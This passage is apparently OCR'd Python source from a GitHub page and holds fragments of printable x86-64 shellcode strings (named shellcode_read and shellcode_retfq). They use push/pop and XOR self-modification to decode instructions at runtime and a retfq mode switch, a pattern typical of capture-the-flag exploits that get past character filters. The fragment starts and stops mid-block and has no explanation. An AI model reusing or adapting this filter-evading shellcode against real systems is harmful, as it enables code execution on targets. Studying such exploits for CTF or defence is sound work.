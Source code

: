 ```python
    pop rax
    xor al,0x47
    push rax
    pop rdx
    push 0x40
    pop rax
    xor al,0x40
    push rax
    pop r8
    push rax
    pop r9
    push rbx
    pop rax
    push 0x5d
    pop rcx
    xor byte ptr[rax+0x31],cl
    push 0x5f
    pop rcx
    xor byte ptr[rax+0x32],cl
    push 0x22
    pop rcx
    push 0x40
    pop rax
    xor al,0x49
    '''
    shellcode_read = '''
    push 0x40404040
    pop rsi
    push 0x40
    pop rax
    xor al,0x40
    push rax
    pop rdi
    xor al,0x40
    push 0x70
    pop rdx
    push rbx
    pop rax
    push 0x5d
    pop rcx
    xor byte ptr[rax+0x57],cl
    push 0x5f
    pop rcx
    xor byte ptr[rax+0x58],cl
    push rdx
    pop rax
    xor al,0x70
    '''
    shellcode_retfq = '''
    push rbx
    pop rax
    xor al,0x40
    push 0x72
    pop rcx
    xor byte ptr[rax+0x40],cl
    push 0x68
    pop rcx
    xor byte ptr[rax+0x40],cl
    push 0x47
    pop rcx
    sub byte ptr[rax+0x41],cl
    push 0x48
    pop rcx
```